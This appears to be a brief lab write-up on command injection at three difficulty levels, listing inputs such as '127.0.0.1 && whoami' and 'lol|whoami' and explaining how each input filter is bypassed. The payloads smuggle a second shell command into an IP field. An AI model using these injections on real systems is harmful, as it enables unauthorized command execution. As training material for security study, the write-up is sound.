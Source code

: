 # Low:

### User
127.0.0.1 && whoami

### Hostname
127.0.0.1 && hostname


# MEDIUM:
The input is now being filtered. It replaces '&&' and ';' with empty character. So we now need to use other operator to chain commands. We will use OR ( || ) operator with an invalid ip.

### User
lol || whoami

### Hostname
lol || hostname

# HARD
This time most of the operator is being filtered. But there is a typo. Instead of filtering "|", "| " is being filtered. So we can easily chai command with "|" without any whitespace.

### User
lol|whoami

### Hostname
lol|hostname